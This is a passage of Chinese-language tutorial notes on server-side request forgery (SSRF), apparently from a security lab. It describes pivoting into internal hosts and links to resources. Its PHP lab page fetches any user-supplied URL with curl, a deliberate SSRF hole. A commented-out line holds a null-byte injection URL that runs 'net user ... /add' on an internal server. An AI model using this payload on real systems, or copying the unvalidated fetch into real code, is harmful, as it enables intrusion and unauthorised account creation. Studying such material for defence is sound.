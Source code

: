 由此可见，通过SSRF漏洞，可以进行服务器内网主机信息的探测，将存在SSRF漏洞的Web服务器作为跳板，访问到外网不能直接访问的服务器内网主机。

## SSRF 实战—图片加载翻译转码等应用说明

无

# 涉及资源

https://pan.baidu.com/s/1bp96ECJ

SSRF漏洞(原理&绕过姿势)：https://www.t00ls.cc/articles-41070.html

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<form action="" method="POST">
请输入图片地址：<input type='text' name='url'>
<input type='submit' value="提交">
</form>

<?php
/*
$url=$_POST['url'];
$img = file_get_contents('http://192.168.64.144:8080/?search==%00{.exec|cmd.exe%20/c%20net%20user%20test1234%201234%20/add.}');
echo $url;
echo $img;
//header("Content-Type: image/jpeg;text/html; charset=utf-8");
//echo $img;
//$file=fopen('x.png','w+');
//fwrite($file,$img);
//fclose($file);
*/
?>

<?php
$_POST['url'];
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_POST['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
curl_exec($ch);
curl_close($ch);
?>

```

[服务器上的 MYSQL管理工具无法打开](https://www.hws.com/bbs/thread-136.htm)

[Host is not allowed to connect to this MySQL server解决方法](https://www.cnblogs.com/smfx1314/p/11086716.html)

